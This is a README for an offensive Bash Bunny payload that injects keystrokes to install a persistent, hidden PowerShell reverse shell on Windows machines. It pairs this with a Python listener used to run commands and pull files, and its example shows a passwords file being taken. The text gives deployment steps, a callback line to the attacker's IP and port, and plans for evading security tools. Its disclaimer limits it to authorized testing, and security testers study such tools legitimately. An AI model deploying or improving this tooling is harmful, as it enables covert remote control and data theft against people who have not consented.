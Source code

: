 # Persistent Reverse Shell w/ Terminal Listener UI

**Author:** CyberJulian  
**Category:** Network  
**Target OS:** Windows 10, 11  
**Attack Modes:** HID, STORAGE 

---

## ⚠️ Disclaimer  
This project is intended for **educational and authorized testing purposes only**. Unauthorized use of this software is strictly prohibited.

---

## Overview  
This **Bash Bunny payload** deploys a **persistent reverse shell** on a Windows target, enabling remote access via a feature-rich terminal interface. The script runs on system startup, ensuring continuous reconnection even after reboots.

## Features  
✅ **Persistent Connection** – Automatically reconnects on system startup.  
✅ **Stealthy Execution** – Runs in the background from a hidden directory.  
✅ **Command Execution** – Executes shell commands remotely and returns output.  
✅ **File Download** – Transfer files from the target system to the attacker machine.  
✅ **Interactive Terminal UI** – Nice terminal interface.  
✅ **Paged Output** – Easily navigate through large command outputs.  
✅ **Automatic Deployment** – Installs via Bash Bunny keystroke injection.  

---

## How It Works

### **1️⃣ Execution via Bash Bunny**  
- The Bash Bunny injects keystrokes to **run a PowerShell command** that:  
  - Copies the reverse shell script to a **hidden directory** (`%APPDATA%\HiddenFolder`).  
  - Creates a **batch script** in the Windows **Startup folder** for persistence.  

### **2️⃣ Persistent Connection Attempt**  
- The reverse shell script **loops continuously**, trying to connect to the **designated listener IP and port**.  
- If the connection is lost, the script **retries every 5 seconds** until successful.  
- If the system reboots, the **Startup script automatically restarts the process**.

### **3️⃣ Remote Command Execution**  
- Once connected, the target device **listens for commands** from the remote listener.
- The session remains active until manually terminated.
  - To **fully terminate the script**, type "exit". This will **completely stop execution** and close the connection.
   - You'd have to wait for the computer to reboot in order to connect once more
  - To stop the connection while **keeping the script running on loop**, enter Control+C

---

## Setup Instructions

### **Listener (Attacker Machine)**
1. Start the listener on your machine:
   ```bash
   python3 listener.py
   ```
2. When prompted, enter your desired port (port 4444 is default)
3. The terminal UI will appear showing:
   - Connection status and information
   - Command history and output
   - Interactive shell prompt

### **Listener Interface Features**
- **Visual Status Tracking** – See connection status and client details at a glance
- **Command History** – View previously executed commands and their outputs
- **Paged Output** – Large command responses are displayed in easily navigable pages
- **File Downloads** – Use the `download <filepath>` command to transfer files from target to attacker
- **Executable Launcher** – Easily launch executables, batch files, and shortcuts on the target
- **Clean Exit** – Type `exit` to terminate the session (You'll have to wait for the computer to restart if you close with `exit`)
    - Use Control + C to end your connection and keep the program running on the target computer for a later connection

### **Deployment via Bash Bunny**
1. **Edit reverse.ps1** to set the correct **listener IP address**:
- Open reverse.ps1 and locate this line:
  ```
  $client = New-Object System.Net.Sockets.TCPClient("192.168.1.0", 4444)
  ```  
  - Replace 192.168.1.0 with your listener's IP address.  
  - Replace 4444 with your listener's port, if necessary. 
2. **Copy the payload files** to your Bash Bunny:
   ```
   /payloads/switch1/
   ├── payload.txt
   ├── setup_reverse_shell.ps1
   ├── reverse.ps1
   ```
3. **Insert the Bash Bunny into the target Windows machine.**
4. The payload will:
   - Copy the reverse shell script to a hidden directory.
   - Create a **Startup entry** to ensure persistence.
   - Initiate the first connection attempt.

---

## Payload Breakdown

### **`payload.txt` (Main Bash Bunny Script)**
- Configures the Bash Bunny as a **HID & Storage device**.
- Runs the **PowerShell setup script** from the Bash Bunny storage.
- Executes the **reverse shell script** from its new hidden location.

### **`setup_reverse_shell.ps1` (Persistence Setup)**
- Copies `reverse.ps1` to a hidden directory.
- Creates a **Startup script** in the Windows **Startup folder**.
- Ensures the reverse shell script runs on every system boot.

### **`reverse.ps1` (Reverse Shell Loop)**
- **Attempts to connect** to the attacker's listener IP & port.
- **Executes received commands** and returns output.
- **Loops indefinitely**, retrying if disconnected (every 5 seconds).

### **`listener.py` (Terminal UI Listener)**
- **Provides an interactive terminal interface** for the attacker.
- **Processes and displays** command outputs in a clean format.
- **Handles file transfers** from the target system.
- **Manages connection status** and provides visual feedback.

---

## Usage Examples

### **Basic Commands**
```
Shell> whoami
victim-pc\user

Shell> systeminfo | findstr OS
OS Name:                   Microsoft Windows 11 Home
OS Version:                10.0.22621 N/A Build 22621
```

### **File Downloads**
```
Shell> download C:\Users\user\Documents\passwords.txt
[+] File saved as: passwords.txt
```

### **Executing Programs**
```
Shell> cmd /c start notepad.exe
[*] Executing program: notepad.exe
[.] No output received.
```

---

### 🎯 **Future Enhancements**
- Force target device to **connect to desired network** if applicable.
- Implement **multi-platform support** (Mac & Linux).
- Add **file upload capability** to send files to the target.
- Improve **stealth** to bypass security tools & clean tracks.
- Add **encryption** for secure communication.
- Implement **session logging** to save command history.

---

## 🏆 Credits  
Created by **CyberJulian**
